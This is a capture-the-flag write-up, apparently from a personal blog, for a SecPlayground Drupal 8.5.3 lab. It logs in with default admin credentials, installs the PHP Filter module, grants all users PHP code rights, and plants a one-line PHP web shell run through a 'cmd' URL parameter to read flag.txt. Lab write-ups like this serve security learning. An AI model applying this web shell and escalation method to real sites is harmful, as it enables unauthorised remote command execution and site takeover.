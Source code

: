 # bkornpob.github.io
bkornpob website

--------------------------

#drupal #misconfigured #shell-injection
#secplayground

Exercise: https://play.secplayground.com/lab/65

# Brief

Default admin cred
```
Drupal version 8.5.3
user: admin
password: password
```

# Mission

Read flag.txt

# Solved

pwn: login with default admin cred
escalate: inject php shell
payload: `<?php system($_GET["cmd"]); ?>`

![alt text1](Pasted image 20250905002202.png)

![alt text2](0 unsorted/Pasted image 20250905002202.png)


1. access the server and login with admin:password
2. research about Drupal interface and how to inject php shell
   summary: simply create a page, make sure php script is enabled
3. Content > Add content > Basic page > 
   'Title':'abc', 
   'Body':payload,
   'Text format':***Notice that there is no php option*** , leave default as 'Basic HTML',
   'Published':1,
   SAVE
4. access the abc page and verify that php script is disabled
5. enable php script
	1. install PHP module
		   Extend > Install new module > modules
		   this takes to https://www.drupal.org/project/project_module
		   find ![[Pasted image 20250905002202.png]] ***it was really hard to find; filter and sort saved the day?***
		   https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
			   The website encountered an unexpected error. Please try again later.
			try different release ![[Pasted image 20250905003434.png]]
		   https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
			   Installation was completed successfully.
	2. enable PHP module
	   idea of this step is to grant privy for non-admin user to run php script
		   Extend > find PHP Filter > Check TRUE > Install
		   Extend > find PHP Filter > Click (at the description) to expand > Permission > find 'Use the PHP Code text format' > Check TRUE all users > Save permissions
6.  Create Basic page (step 3) now has
	   'Text format':'PHP code'
	inject php shell
7. Access either using preview
	   http://34.124.158.245/node/preview/75d37909-67a4-428c-91c6-2948dc73192f/full?cmd=whoami
	or directly access the published page
		http://34.124.158.245/node/1?cmd=whoami
8. Read flag.txt
